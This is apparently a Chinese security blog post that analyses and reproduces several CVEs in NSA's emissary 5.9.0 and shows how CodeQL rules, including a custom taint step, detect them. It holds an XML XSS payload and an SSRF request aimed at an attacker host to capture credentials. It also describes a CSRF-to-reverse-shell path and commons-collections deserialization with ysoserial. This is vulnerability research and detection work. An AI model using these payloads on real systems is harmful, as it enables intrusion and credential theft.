# NSA emissary多个漏洞分析复现和CodeQL实践

>文章首发于奇安信攻防社区: https://forum.butian.net/share/604

## 0x00 前言

先是Sonarsource的安全研究员在审计NSA的开源项目emissary v5.9.0版本的过程中发现了若干漏洞，其中包括：
- Code Injection (CVE-2021-32096)
- Arbitrary File Upload (CVE-2021-32094)
- Arbitrary File Disclosure (CVE-2021-32093)
- Arbitrary File Delete (CVE-2021-32095)
- Reflected cross-site scripting (CVE-2021-32092)

后来在浏览Github安全实验室的博客时，看到@pwntester在Sonarsource安全研究员的基础上，使用CodeQL编写规则，在emissary项目中除了检测出以上漏洞外，还发现了新的漏洞：
- Unsafe deserialization (CVE-2021-32634)
- Server-side request forgery (CVE-2021-32639)

最近笔者除了在做漏洞分析外，也在学习CodeQL的使用，刚好可以用emissary项目来练手。

## 0x01 漏洞分析和复现

### Reflected cross-site scripting (CVE-2021-32092)

这个XSS漏洞发生在一个文档上传功能里，上传文档后通过`/emissary/Document.action/{uuid}`接口来获取文档的信息，`uuid`参数对应的不同的文档。当`uuid`不存在时，返回一个`XML`格式的内容，提示`uuid`不存在, 但传入的`uuid`参数未经任何的安全过滤就原样显示在回显文本中，可导致反射型XSS。关键代码如下图：


由于返回的文本是XML格式，可在[XSS-Cheat-Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)中找到在XML文件中执行的PoC，如下：

```html
<x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(document.domain)</x:script>
```


该漏洞使用CodeQL最新版本的默认规则集可以检测出来，如下图：



而如果使用较旧的版本(应该是今年6月份以前的版本)，使用默认的规则集无法检测出该XSS，看CodeQL对应的提交记录，应该是之前没有考虑到响应类型为：`application/xml`，从而导致漏报(个人愚见，不一定对...)。另外，还针对XSS的误报方面进行了改进，忽略了响应类型为`application/json`的情况。对应的改进实现见：[XSS改进](https://github.com/github/codeql/pull/6162/commits)

### Arbitrary File Disclosure (CVE-2021-32093) 

漏洞发生在接口`/emissary/ConfigFile.action`，该接口没有对传入的参数`ConfigItem`做任何安全校验和过滤，导致可读取服务器上任意文件。关键代码如下：


示例如下，读取系统文件，及读取emissary的配置文件获取用户名/密码：


该漏洞使用CodeQL的默认规则集可以检测出来，如下图：




### Code Injection (CVE-2021-32096)

该漏洞出现在接口`/emissary/Console.action`，该接口允许用户执行Ruby代码。关键代码如下：


这个是emissary提供的功能。另外，该接口需要登录后才能调用。但由于emissary的用户认证使用的是HTTP摘要认证(HTTP Digest authentication)(参考[3])，在浏览器端登录后的HTTP请求，会自动带上请求头`Authorization`，如下：

```
GET / HTTP/1.1
Host: 192.168.3.56:8001
Authorization: Digest username="emissary", realm="EmissaryRealm", nonce="6GNGeEbPjv0BCgLtxLiqHifkF1eNRMM3", uri="/", algorithm=MD5, response="daa5a9a9144b7665f5ff1f5585d3432f", qop=auth, nc=00000001, cnonce="9f3c3b06c42dba3b"
```

这种认证方式可以被CSRF攻击。所以可构造页面让登录用户去访问，从而获取反弹shell，如下图演示：


这个漏洞，使用目前CodeQL的默认规则集是检测不出来的，尽管默认规则集确实已覆盖了`javax.script.ScriptEngine.eval()`，所以应该是因为某种原因导致`source`和`sink`之间的通路断了。下面通过代码来分析下原因。



`getOrCreateConsole(request)` 将调用 `RubyConsole.getConsole()`，其实现如下：



这里会启动一个线程，线程执行的代码见`RubyConsole.run()`:



当调用`ruby​​ConsolePost()` 方法时，`RubyConsole.run()`由于 `stringToEval`为null，会执行`wait()`立马使当前线程进入挂起状态。

然后再回到接口的执行方法`rubyConsolePost()`，后面会执行`console.evalAndWait()`去执行Ruby代码：





可以看到`evalAndWait()`方法里并没有直接调用`eval()`方法，而是将要执行的ruby代码字符串赋值给全局变量`stringToEval`，然后调用`notifyAll()`方法来唤醒所有等待状态的线程，所以`RubyConsole.run()`方法继续往下执行，调用`javax.script.ScriptEngine.eval()`去执行Ruby代码。

综上可判断：使用默认的规则集检测的过程中，从`/Console.action`到`console.evalAndWait()`，由于`javax.script.ScriptEngine.eval()`没有在`console.evalAndWait()`里被调用，所以这个数据流就断了。所以检测不出来。

因此，得通过编写CodeQL额外的污点步骤，把这个数据通路给连接起来。这里直接引用了@pwntester编写的CodeQL规则，如下：

```
class NotifyWaitTaintStep extends TaintTracking::AdditionalTaintStep {
  override predicate step(DataFlow::Node n1, DataFlow::Node n2) {
    exists(MethodAccess notify, MethodAccess wait, SynchronizedStmt notifySync, SynchronizedStmt waitSync |
      notify.getMethod().hasQualifiedName("java.lang", "Object", ["notify", "notifyAll"]) and
      notify.getAnEnclosingStmt() = notifySync and
      wait.getMethod().hasQualifiedName("java.lang", "Object", "wait") and
      wait.getAnEnclosingStmt() = waitSync and
      waitSync.getExpr().getType() = notifySync.getExpr().getType() and
      exists(AssignExpr write, FieldAccess read |
        write.getAnEnclosingStmt() = notifySync and
        write = n1.asExpr() and
        read.getAnEnclosingStmt() = waitSync and
        read.getField() = write.getDest().(FieldAccess).getField() and
        read = n2.asExpr()
      )
    )
  }
}
```

可将这段代码添加到CodeQL默认的代码注入规则文件`ql/java/ql/src/experimental/Security/CWE/CWE-094/ScriptInjection.ql`中，再运行查询，就能检测出该漏洞了，如下图：




### Unsafe deserialization (CVE-2021-32634)

该漏洞发生在接口`/emissary/WorkSpaceClientEnqueue.action`，代码如下图：


可以看到参数`WorkSpaceAdapter.WORK_BUNDLE_OBJ`在第52、53行被读取并反序列化。而且emissary依赖了`commons-collections-3.2.1`，所以可以使用`ysoserial`生成`CC`链的payload进行反序列化攻击。由于这个接口也是登录后才可调用，因此可配合CSRF进行利用。

该漏洞使用CodeQL的默认规则集可以检测出来，如下图：




### Server-side request forgery (CVE-2021-32639)

这里有两个接口存在SSRF漏洞，分别是`/emissary/RegisterPeer.action`和`/emissary/AddChildDirectory.action`。

这两处SSRF漏洞，使用CodeQL的默认规则集可以检测出来，如图：





#### 接口 /RegisterPeer.action

漏洞输入点在`directoryName`参数。

可构造payload如下：
```
POST /emissary/RegisterPeer.action HTTP/1.1
Host: 127.0.0.1:8001
Content-Type: application/x-www-form-urlencoded

directoryName=foo.bar.baz.http://172.20.10.3:5000/&targetDir=http://localhost:8001/DirectoryPlace
```

SSRF一般用于未授权访问、扫描或攻击目标的内部网络。但是这里@pwntester根据emissary的实际情况给出了另一种攻击场景。通过分析代码发现，emissary使用Apache的HttpClient库来向内部网络发起http请求，它从自身配置中获取身份凭证，并将身份凭证设置到名为`CRED_PROV`的凭证提供者对象中，然后带着这个身份凭证向目标服务发起Http请求。在这个过程中，并没有配置emissary客户端使用哪种身份认证机制(`HTTP Basic Authentication`或`HTTP Digest Authentication`)，所以判断：使用哪种身份认证机制应该是根据HTTP服务器的响应来决定的。具体代码如下：



因此，我们就可以架设一个HTTP基础认证的服务器，然后通过emissary的SSRF漏洞，让emissary客户端使用HTTP基础认证方式去访问我们的服务器，这样，我们在恶意服务器端就能获取用户身份凭证的明文数据(Base64编码)。

经实践，确实是这样。<br>
1、首先编写并启动我们的HTTP Basic Authentication服务器；<br>
2、使用上面的payload，对emissary执行SSRF攻击，如下图，会带着身份凭证的明文数据(Base64编码)向我们的目标服务器发起请求: <br>



因此emissary项目的维护者在修复SSRF漏洞的同时，还指定了emissary客户端使用HTTP摘要认证机制。如下图，详见：[修复代码](https://github.com/NationalSecurityAgency/emissary/commit/79ca5608c4f77d9a5c8a4996e204377c158a6976#diff-c988041bf4d686dbcce23218e54188558f0116513ff30d161d958482a7c5f1c4)


#### 接口 /AddChildDirectory.action

`/AddChildDirectory.action`接口同理，就不展开说了。

## 小结

- CodeQL在一定程度上，依赖于安全人员的技术能力。但随着该项目的活跃，安全社区会有越来越多的人提交优质的CodeQL查询规则，来增强它的默认规则集。
- 总之，CodeQL无论是在代码审计挖洞，还是分析Nday方面，都是非常值得学习的工具。

## Reference

[1] https://blog.sonarsource.com/code-vulnerabilities-in-nsa-application-revealed <br>
[2] https://securitylab.github.com/research/NSA-emissary/ <br>
[3] https://blog.csdn.net/andrewpj/article/details/45727853